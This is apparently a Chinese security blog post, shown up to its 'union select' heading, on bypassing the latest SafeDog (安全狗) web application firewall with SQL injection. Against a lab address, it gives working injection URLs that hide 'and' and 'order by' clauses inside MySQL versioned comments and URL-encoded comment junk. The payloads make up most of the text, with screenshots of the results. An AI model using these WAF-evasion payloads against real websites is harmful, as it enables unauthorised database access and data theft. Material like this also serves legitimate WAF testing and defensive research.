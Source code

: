 #  sql注入bypass最新版某狗

原创 yicunyiye  [ 红队蓝军 ](javascript:void\(0\);)

**红队蓝军** ![]()

微信号 Xx_Security

功能介绍 一群热爱网络安全的人，知其黑，守其白。不限于红蓝对抗，web，内网，二进制。

____

___发表于_

收录于合集

#waf绕过 1 个

#sql注入 2 个

#web 23 个

## 安全狗最新版本

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222174147.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222174206.png)  

  

## and绕过

http://192.168.111.16/index.php?id=1%20and%20/ _!500011_ /=/ _!500011_ /

http://192.168.111.16/index.php?id=1%20and%20/ _!500011_ /=/ _!500012_ /

http://192.168.111.16/index.php?id=if((1=2),1,1)

http://192.168.111.16/index.php?id=1%20and/ _%!%22/_ /1=1%20--%20+

## order by 绕过

/*%!*干扰

http://192.168.111.16/index.php?id=1/ _%2a%%2f_ /order/ _%2f%2f_ /by/ _%2f%2f_
/2

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222174208.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222174210.png)  
  

## union select 绕过
